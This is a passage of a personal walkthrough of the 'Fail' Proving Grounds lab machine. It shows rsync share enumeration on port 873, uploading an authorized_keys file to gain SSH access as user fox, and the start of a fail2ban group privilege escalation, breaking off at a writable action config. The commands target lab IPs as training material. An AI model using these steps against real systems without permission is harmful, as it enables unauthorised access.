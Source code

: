 ```yaml
---
Alias: Fail
Date: 5/3/2022
Platform: Linux
Difficulty: Intermediate
Tags:
Status: Finished
IP: 
---
```


# {{Fail}}


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash
873
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 873

#### -Per googling port 873 enumeration I found "hacktricks" website showing to type "nmap -sV --script "rsync-list-modules" -p <PORT> <IP>" to enumerate shares:

![](Pasted%20image%2020221015215909.png)

#### -Found share "fox" typing "nmap -sV --script "rsync-list-modules" -p 873 192.168.143.126":

![](Pasted%20image%2020221015220513.png)
#Rsync 

#### -Per googling port 873 enumeration I found the below web page showing how to list files/directory from rsync server

![](Pasted%20image%2020221015220950.png)

![](Pasted%20image%2020221015221123.png)

#### -Typed "rsync -r 192.168.143.126::fox " and found the below files/directories showing user "fox" home directory and then downloaded all files/directories onto local machine by typing "rsync -av fox@192.168.143.126::fox/ ."

![](Pasted%20image%2020221015221356.png)

![](Pasted%20image%2020221015221635.png)

#### -Found nothing interesting reading the files
	
#### -Tested if I can upload files users "fox" home directory by typing "echo "hello world" > testfile.txt" and typing "rsync testfile.txt -r 192.168.143.126::fox" to see if it uploaded to fox's home directory. And I found I can:

![](Pasted%20image%2020221015221837.png)

#### -The directions how to find out how to do this was found on the previous website showing the following: 

![](Pasted%20image%2020221015222046.png)

#### -Googled "port 873 enumeration" and found the following page from hacktricks showing how to copy all files from your  local machine to the rsync server:

![](Pasted%20image%2020221015222900.png)


#### Then copied all rsync files to kali machine

---

# Exploitation
## Name of the technique

#### -Typed the following commands to create an authorized_keys file in fox's home directory so I can log in via SSH session:
-"mkdir fox" 
-"cd fox"
-"mkdir .ssh"
-"cd .ssh" 
-"touch id_rsa.pub" 
-"ssh-keygen -t rsa" 
-[Enter file in which to save the key (/home/kali/.ssh/id_rsa):] "/home/kali/Downloads/ProvingGroundsBoxes/Fail/fox/.ssh/id_rsa.pub"
-[Enter passphrase (empty for no passphrase):] "password"
-[Enter same passphrase again:] "password"
-"sudo mv id_rsa_pub authorized_keys"
-"cd .."
-"rsync -avp fox/ fox@192.168.120.149::fox/"

#### -Navigated to directory where the "id_rsa" file was created after running "ssh-keygen -t rsa" and typed "chmod 600" to create the correct permissions for the private ssh key

#### -Typed "ssh -I id_rsa fox@192.168.143.126" and typed in "password" for the password and received an ssh session as user fox

![](Pasted%20image%2020221016090756.png)

---

# Privilege Escalation
## Local Enumeration

#### -Ran "LunEnum.sh" script and found user "fox" is an owner of "fail2ban" group:

![](Pasted%20image%2020221016091122.png)

#### -Googled "fail2ban privilege escalation" and found the following webpage showing the steps to escalate privileges:

![](Pasted%20image%2020221016091817.png)

![](Pasted%20image%2020221016091921.png)

![](Pasted%20image%2020221016092000.png)

![](Pasted%20image%2020221016092047.png)

![](Pasted%20image%2020221016092139.png)

![](Pasted%20image%2020221016092235.png)
#Fail2BanPrivilegeEscalation 

---

## Privilege Escalation vector
## Fail2Ban group privelege escalation

#### -Per steps above I navigated to "/etc/fail2ban/action.d" folder and typed "ls –la" and found group "fail2ban" has write priviliges on file "iptables-multiport-log.conf":



---

